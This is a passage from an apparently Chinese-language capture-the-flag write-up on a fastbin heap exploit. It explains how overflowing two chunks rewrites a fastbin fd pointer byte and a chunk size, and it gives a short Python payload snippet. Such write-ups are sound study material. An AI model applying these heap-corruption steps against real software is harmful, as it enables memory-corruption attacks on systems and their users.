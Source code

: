    ![0x2](/img/image-20220723210043156.png)

   >  分别往babychunk0和babychunk3填充数据。
   >
   > - 对于babychunk0，首先填充完它自己的user data部分，然后填充babychunk1使得babychunk1的fd指针的最后一字节变成0x80，也就是使得babychunk4取代babychunk2在fastbin里的位置。
   > - 对于babychunk3，首先填充完它自己的user data部分，然后填充babychunk4，使得babychunk4的size变成0x20。

   ```python
   payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
   fill(0, len(payload), payload)			 #fastbin[0] -> babychunk1 -> babychunk4<- 0x0
   #这里之所以能够直接send 0x80 以修改fastbin1的fd为chunk4是因为:
   #堆的地址始终是 4KB 对齐的,第四个chunk的起始地址的首个字节必为0x80.
   payload = 0x10 * 'a' + p64(0) + p64(0x21)
   fill(3, len(payload), payload) 			#填充smallchunk，修改chunk_size 为 fastbin_size
   ```
